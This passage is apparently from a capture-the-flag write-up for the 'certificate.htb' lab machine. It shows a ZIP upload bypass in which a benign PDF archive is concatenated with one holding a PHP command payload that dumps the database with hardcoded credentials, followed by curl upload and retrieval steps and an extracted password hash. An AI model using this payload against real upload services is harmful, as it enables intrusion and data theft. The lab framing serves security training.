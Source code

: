 ### Upload Functionality Discovery
- **Endpoint:** `http://certificate.htb/upload.php`
- **Functionality:** ZIP file upload with malicious content detection
- **Vulnerability:** ZIP Slip (Path Traversal) via improper archive extraction

---

## Phase 3: ZIP Slip Exploitation

### Payload Construction
```bash
# Create legitimate decoy file
echo "%PDF-1.4" > legitimate.pdf
zip legitimate.zip legitimate.pdf

# Create malicious database extraction payload
cat > database_extract.php << 'EOF'
<?php 
system('"C:\\xampp\\mysql\\bin\\mysqldump.exe" -u certificate_webapp_user -pcert!f!c@teDBPWD Certificate_WEBAPP_DB > C:\\xampp\\htdocs\\certificate.htb\\static\\full_dump.sql');
?>
EOF

# Package malicious payload
zip malicious.zip database_extract.php

# Combine archives for ZIP slip exploitation
cat legitimate.zip malicious.zip > combined_payload.zip
```

### Exploitation Execution
```bash
# Upload combined payload
curl -X POST -F "file=@combined_payload.zip" http://certificate.htb/upload.php?s_id=36

# Access extracted database dump
curl http://certificate.htb/static/full_dump.sql > database_dump.sql
```

---

## Phase 4: Database Credential Extraction

### SQL Dump Analysis
```sql
-- Extracted user data from database dump
INSERT INTO `users` VALUES 
(10,'Sara','Brawn','sara.b','sara.b@certificate.htb','$2y$04$CgDe/Thzw/Em/M4SkmXNbu0YdFo6uUs3nB.pzQPV.g8UdXikZNdH6','2024-12-26 05:31:26','admin',1);
```
